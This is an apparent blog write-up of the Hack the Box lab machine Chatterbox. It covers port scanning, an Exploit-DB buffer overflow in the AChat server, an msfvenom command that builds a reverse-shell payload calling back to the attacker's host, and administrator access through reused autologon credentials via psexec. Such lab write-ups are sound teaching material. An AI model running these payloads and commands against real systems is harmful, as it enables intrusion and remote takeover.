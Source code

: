 ```yaml
---
title: Hack the Box - Chatterbox
date: 2022-10-06 12:00:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Chatterbox](/assets/HackTheBox/Chatterbox/Chatterbox.png)

# Bounty Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.74|Chatterbox|Windows|

## Path to Exploitation

To complete Chatterbox we'll start by leveraging a buffer overflow vulnerability in an outdated chat server with a publicly available exploit. Once we modify the payload in the script we'll get a reverse shell back on our machine. To escalate our privileges, we'll reuse a weak password that we were able to identify and gain access to the administrator account. 

# Chatterbox Enumeration

## Full Port Scan

```shell
$ nmap 10.10.10.74 -p- -oA Chatterbox/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|9255|mon|
|9256|unknown|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```shell
$ nmap 10.10.10.74 -p 9255,9256,49152,49153,49154,49155,49156,49157 -sC -sV -oA Chatterbox/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|9255|http|chat system httpd|
|9256|achat|chat system|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# Exploiting the AChat Server

I did a simple google search of this AChat service and found a potential exploit that I could use. The [exploit](https://www.exploit-db.com/exploits/36025)is a remote buffer overflow.

Inside the script we see the command needed to generate the payload

```shell
$ msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We'll need to modify this command to create a reverse shell payload instead of executing calc.exe

```shell
$ msfvenom -p windows/shell_reverse_tcp -a x86 --platform Windows LHOST=10.10.14.8 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

After creating this payload and modifying the script with it, we can setup a nc listener and launch the exploit

```shell
$ python exploit.py
```

Checking back on the listener we see we have a shell as alfred
![Initial Foothold](/assets/HackTheBox/Chatterbox/initial-foothold.png)

# Privilege Escalation

Running winpeas we identify a set of Autologon credentials

![Autologon Credentials](/assets/HacktheBox/Chatterbox/autologon-creds.png)

We can try re-using this password with the administrator account using PsExec

```shell
$ python /home/pharo/.local/bin/psexec.py Administrator:"Welcome1\!"@10.10.10.74
```
![Autologon Credentials](/assets/HacktheBox/Chatterbox/priv-esc.png)

We can see that we now have a session running as SYSTEM.